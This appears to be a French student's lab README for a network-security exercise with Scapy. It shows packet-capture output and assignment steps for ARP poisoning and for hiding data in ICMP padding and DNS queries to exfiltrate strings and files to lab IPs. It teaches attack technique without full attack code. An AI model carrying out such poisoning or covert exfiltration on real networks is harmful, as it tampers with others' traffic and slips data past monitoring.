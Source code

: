 # TP4 SECU : Exfiltration

# I. Getting started Scapy

🌞 **`ping.py`**

![Fichier Ping](./ping.py)
```
# Execution vers une machine
C:\Users\Bayle\B2_Matheo\TP4 Secu> python .\ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=84:14:4d:0e:5e:b1 src=4C:03:4F:88:B2:5B type=IPv4 |<IP  frag=0 proto=icmp src=10.33.76.227 dst=10.33.76.229 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=4c:03:4f:88:b2:5b src=84:14:4d:0e:5e:b1 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=14437 flags= frag=0 ttl=128 proto=icmp chksum=0x5472 src=10.33.76.229 dst=10.33.76.227 |<ICMP  type=echo-reply code=0 chksum=0xffff id=0x0 seq=0x0 |>>>)
```

🌞 **`tcp_cap.py`**

![Fichier tcp_cap](./tcp_cap.py)

```bash
PS C:\Users\Bayle\B2_Matheo\TP4 Secu> py.exe .\tcp_cap.py
# recherche internet 1.1.1.1

TCP SYN ACK reçu !
- Adresse IP src : 1.1.1.1
- Adresse IP dst : 10.33.76.227
- Port TCP src : 80
- Port TCP dst : 56902
```
🌞 **`dns_cap.py`**

![Fichier dns_cap](./dns_cap.py)

```bash
PS C:\Users\Bayle\B2_Matheo\TP4 Secu> py.exe .\dns_cap.py
# en même temps dans un autre terminal 
# PS C:\Users\Bayle> nslookup ynov.com
DNS Request and Response captured!
- Query Name: 8.8.8.8.in-addr.arpa.
- Response IP: b'dns.google.'


DNS Request and Response captured!
- Query Name: ynov.com.
- Response IP: 104.26.10.233


DNS Request and Response captured!
- Query Name: ynov.com.
- Response IP: 2606:4700:20::681a:be9

```

🌞 **`dns_lookup.py`**

- craftez une requête DNS à la main
- en entier encore là, toute la trame, vous devez utiliser la méthode `srp()`

# II. ARP Poisoning

BON VOUS ALLEZ PAS Y COUPER SI VOUS L'AVEZ JAMAIS FAIT.

**P'tit détour rapide sur un ARP Poisoning simple.** Pas question de MITM ici, juste injecter une fausse donnée dans la table ARP de quelqu'un.

🌞 **`arp_poisoning.py`**

- craftez une trame ARP qui empoisonne la table d'un voisin
  - je veux que, pour la victime, l'adresse IP `10.13.33.37` corresponde à la MAC `de:ad:be:ef:ca:fe`
- **testez avec des VMs uniquement, ou entre vous uniquement**
- prouvez avec une commande sur la machine victime que la fausse donnée a été injectée
- vous n'avez le droit qu'aux fonctions `srp()`, `sr()`, `send()`, `sendp()`

# II. Exfiltration ICMP

➜ **Ici, on va se servir de notre ami le ping pour exfiltrer des données.**

Si vous n'aviez pas noté jusqu'alors en faisant joujou à la partie I, chaque paquet ICMP (ping et pong) contiennent une section appelée "padding" de taille variable, généralement remplie de 0. C'est là, on envoie plein de 0 sur le réseau, kom sa, à chaque ping.

**C'est l'endroit idéal pour stocker des données meow.**

P'tit schéma d'un paquet ICMP [~~volé sur internet ici~~](https://www.freesoft.org/CIE/Course/Section3/7.htm) :

![Kikoo toa](./img/padding.png)

**On va littéralement envoyer des pings, mais le padding on va l'utiliser pour stocker des données.** Autrement dit, on va utiliser des pings pour envoyer de la data à quelqu'un.

Dans notre contexte : pour exfiltrer des données, on peut juste envoyer des ping enfet !

🌞 **`icmp_exf_send.py`**

- envoie un caractère passé en argument dans un ping
  - un seul caractère pour le moment
- l'IP destination est aussi passée en argument
- on doit pouvoir faire par exemple :

```bash
# envoie le caractère "j" caché dans un ping vers 10.1.1.1
$ python icmp_exfiltration_send_1.py 10.1.1.1 j
```

On peut récup les arguments passés au script comme ça :

```python
# La liste argv contient tous les arguments dans l'ordre
from sys import argv

print(f"Ceci est le premier argument : {argv[0]}.")
print(f"Ceci est le deuxième argument : {argv[1]}.")
```

🌞 **`icmp_exf_receive.py`**

- sniff le réseau
- affiche **UNIQUEMENT** le caractère caché si un paquet ICMP d'exfiltration est reçu et quitte après réception de 1 paquet
- si un ping legit est reçu, ou n'importe quoi d'autre votre code doit continuer à tourner
- il attend (avec un filtre sur `sniff()` et des conditions dans la fonction qui traite le paquet) **uniquement** le ping qui contient les données exfiltrées, et les affiche

> Mettez vous dans un setup à deux PCs, ou avec une VM, truc du genre.

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**

- **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

**DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.**

Vu qu'on va envoyer des requêtes DNS pour exfiltrer les données il faut dans l'idéal un service qui tourne pour les recevoir (port 53 UDP), et sur cette machine qui fait tourner le service, un ptit programme `scapy` qui réceptionne et traite tout ce qui est reçu. Les logs du service ça peut faire l'affaire aussi !

> Bon ! Vous vous me la faites tout seul celle-ci ? Quelques recherches sur internet, y'a toute la doc du monde sur ça.

🌞 **`dns_exfiltration_send.py`**

- envoie des données passées en argument à l'IP passée en argument
- utilise le protocole DNS pour exfiltrer lesdites données
- une string de 20 caractères doit pouvoir être exfiltrée

On doit pouvoir faire :

```bash
$ dns_exfiltration_send.py 10.1.1.1 toto
```

⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues

![DNS exfiltration](./img/dns_exf.jpg)

